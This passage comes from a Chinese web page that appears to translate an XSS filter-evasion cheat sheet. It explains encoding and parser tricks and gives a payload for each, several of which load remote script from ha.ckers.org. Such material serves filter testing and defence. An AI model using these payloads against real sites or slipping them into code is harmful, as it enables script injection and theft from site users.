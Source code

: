 <p>一些网站声称09-13编码的所有字符（十进制）都可以实现这种形式的攻击。这是不正确的。只有09(tab), 10 (换行) 和 13 (回车)可以使用。查看ascii表为更详细的信息。下面四个xss例子展示了这个向量。</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">"jav&amp;#x0A;ascript:alert('XSS');"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t25"></a><a name="t25"></a>编码回车符去分开xss代码</h2>
<p>注意：上面我编写的三个xss字符串比必须的字符串更长，原因是0可以被省略。通常我看到的过滤器假设十六进制和十进制的编码是两到三个字符。正确的应该是一到七个字符。</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">"jav&amp;#x0D;ascript:alert('XSS');"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t26"></a><a name="t26"></a>没有分割的javascript指令</h2>
<p>null字符也可以作为一个xss向量，但是不像上边那样。你需要直接注入它们利用一些工具例如Burp Proxy，或是使用 %00 在你的url字符串里。或者如果你想写你自己的注入工具你可以使用vim（^V^@ 会生成null），以及用下面的程序去生成它到一个文本文件中。好吧，我再一次撒谎了。 Opera的老版本（大约 7.11 on Windows）是脆弱的对于一个额外的字符173（软连字符）。但是null字符 %00 是更加的有用或者帮助我们绕过某些真实存在的过滤器用过变动像这个例子中的。</p>
<pre><code class="hljs swift">perl -e '<span class="hljs-built_in">print</span> <span class="hljs-string">"&lt;IMG SRC=java\0script:alert(\"XSS\")&gt;"</span>;' &gt; out
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t27"></a><a name="t27"></a>图片元素中javascript之前的空格和元字符为xss</h2>
<p>xss过滤拼配模式没有考虑单词"javascript:"中可能存在空格是正确的，因为否则将无法渲染。但是这也导致了错误的假设认为你不可以有一个空格在引号和 "javascript:" 单词之间。事实上你可以插入 1-32编码字符（十进制）中的任何字符。</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">IMG</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">" &amp;#14;  javascript:alert('XSS');"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t28"></a><a name="t28"></a>非字母数字字符xss</h2>
<p>Firefox html解析器设定一个非数字字母字符不是有效的在一个html关键字后面，因此这些字符会被视为空白符或是无效的token在html标签之后。这导致很多xss过滤器错误的认为html标签必须是被空白符隔断的。例如，<code>"&lt;SCRIPT\s" != "&lt;SCRIPT/XSS\s"</code>:</p>
<pre><code class="hljs javascript">&lt;SCRIPT/XSS SRC=<span class="hljs-string">"http://ha.ckers.org/xss.js"</span>&gt;<span class="xml"><span class="hljs-tag">&lt;/<span class="hljs-name">SCRIPT</span>&gt;</span></span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<p>和上面的原理相同，我们继续扩大，Gecko渲染引擎允许字母、数字、html封装字符以外的任何字符位于事件处理器与等号之间。从而借此绕过xss过滤器。注意这也是适用于重音符如下所示：</p>
<pre><code class="hljs objectivec">&lt;BODY onload!<span class="hljs-meta">#$%&amp;()*~+-_.,:;?@[/|\]^`=alert(<span class="hljs-meta-string">"XSS"</span>)&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<p>Yair Amit 提示我有一个小区别在 ie和Gecko 渲染引擎之间是他们仅允许一个一个斜杠在html标签和参数之间，在不使用空格的情况下。这可能是有用的在那些不允许输入空格的系统中。</p>
<pre><code class="hljs javascript">&lt;SCRIPT/SRC=<span class="hljs-string">"http://ha.ckers.org/xss.js"</span>&gt;<span class="xml"><span class="hljs-tag">&lt;/<span class="hljs-name">SCRIPT</span>&gt;</span></span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t29"></a><a name="t29"></a>附加的开括号</h2>
<p>Franz Sedlmaier提出，利用这个xss向量可以绕过某些检测引擎，因为这些引擎通过拼配最早出现的一对尖括号，并且提取其内部内容作为标签，而没有使用更加有效的算法例如 Boyer-Moore（寻找打开的尖括号以及相关标签的模糊拼配）。代码中的双斜杠可以抑制额外尖括号导致的javascript错误。</p>
<pre><code class="hljs java">&lt;&lt;SCRIPT&gt;alert(<span class="hljs-string">"XSS"</span>);<span class="hljs-comment">//&lt;&lt;/SCRIPT&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t30"></a><a name="t30"></a>没关闭的script标签</h2>
<p>对于使用了 Gecko渲染引擎的Firefox 和 Netscape 8.1 ，你并不需要常规xss中"&gt;&lt;/SCRIPT&gt;"这部分。 Firefox会帮你闭合标签，并且加入结束标签。多么的体贴啊！ Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. 如果需要，你可以加入引号，但通常他并不是必须的。注意，我并不清楚这个代码被注入后html代码会闭合成什么样子。</p>
<pre><code class="hljs vbscript-html"><ol class="hljs-ln"><li><div class="hljs-ln-numbers"><div class="hljs-ln-line hljs-ln-n" data-line-number="1"></div></div><div class="hljs-ln-code"><div class="hljs-ln-line"><span class="xml"><span class="hljs-tag">&lt;<span class="hljs-name">SCRIPT</span> <span class="hljs-attr">SRC</span>=<span class="hljs-string">http://ha.ckers.org/xss.js?</span>&lt; <span class="hljs-attr">B</span> &gt;</span><span class="undefined"></span></span></div></div></li><li><div class="hljs-ln-numbers"><div class="hljs-ln-line hljs-ln-n" data-line-number="2"></div></div><div class="hljs-ln-code"><div class="hljs-ln-line"></div></div></li></ol></code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t31"></a><a name="t31"></a>script标签中的协议解析</h2>
<p>这个特殊的变体由 Łukasz Pilorz 提出，并且基于上文中 Ozh提出的协议解析绕过。这个xss例子工作在 IE, 使用IE渲染引擎的Netscape 以及加了在结尾的 Opera。这是非常有用的在输入长度受到限制。域名越短越好。 ".j"是有效的，不需要考虑编码问题因为浏览拿起可以自动识别在一个script标签中。</p>
